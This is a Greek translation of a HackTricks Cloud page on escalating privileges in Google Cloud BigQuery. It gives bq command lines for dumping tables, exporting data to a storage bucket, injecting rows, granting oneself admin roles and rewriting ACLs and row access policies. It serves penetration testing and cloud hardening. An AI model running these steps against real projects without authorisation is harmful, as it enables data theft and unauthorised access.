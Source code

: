 # GCP - Προνόμια Εξάπλωσης στο BigQuery

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## BigQuery

Για περισσότερες πληροφορίες σχετικά με το BigQuery, ελέγξτε:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Ανάγνωση Πίνακα

Διαβάζοντας τις πληροφορίες που αποθηκεύονται μέσα σε έναν πίνακα BigQuery, είναι πιθανό να βρεθούν ευαίσθητες πληροφορίες. Για να έχετε πρόσβαση στις πληροφορίες, απαιτούνται οι άδειες **`bigquery.tables.get`**, **`bigquery.jobs.create`** και **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Εξαγωγή δεδομένων

Αυτός είναι ένας άλλος τρόπος για να έχετε πρόσβαση στα δεδομένα. **Εξαγάγετε τα σε έναν κάδο αποθήκευσης στο cloud** και στη συνέχεια **κατεβάστε τα αρχεία** με τις πληροφορίες.\
Για να εκτελέσετε αυτήν την ενέργεια απαιτούνται οι εξής άδειες: **`bigquery.tables.export`**, **`bigquery.jobs.create`** και **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Εισαγωγή δεδομένων

Είναι πιθανό να εισαχθούν **συγκεκριμένα αξιόπιστα δεδομένα** σε έναν πίνακα Bigquery για να εκμεταλλευτείτε μια **ευπάθεια σε κάποιο άλλο μέρος**. Αυτό μπορεί να γίνει εύκολα με τις άδειες **`bigquery.tables.get`**, **`bigquery.tables.updateData`** και **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτό το προνόμιο για να **δώσει στον εαυτό του περαιτέρω δικαιώματα** σε ένα σύνολο δεδομένων του BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Αυτή η άδεια επιτρέπει μόνο την **ενημέρωση της πρόσβασής σας σε ένα σύνολο δεδομένων BigQuery με τροποποίηση των ACLs** που υποδεικνύουν ποιος μπορεί να έχει πρόσβαση σε αυτό:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
```
### `bigquery.tables.setIamPolicy`

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτό το προνόμιο για να **δώσει στον εαυτό του περαιτέρω δικαιώματα** σε έναν πίνακα BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Σύμφωνα με τα έγγραφα, με τις ανωτέρω άδειες είναι δυνατόν να **ενημερωθεί μια πολιτική γραμμής**.\
Ωστόσο, **χρησιμοποιώντας το εργαλείο γραμμής εντολών `bq`** χρειάζεστε κάτι παραπάνω: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("user:user@email.xyz") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Είναι δυνατόν να βρεθεί το ID του φίλτρου στην έξοδο της απαρίθμησης των πολιτικών γραμμής. Παράδειγμα:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΠΛΑΝΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
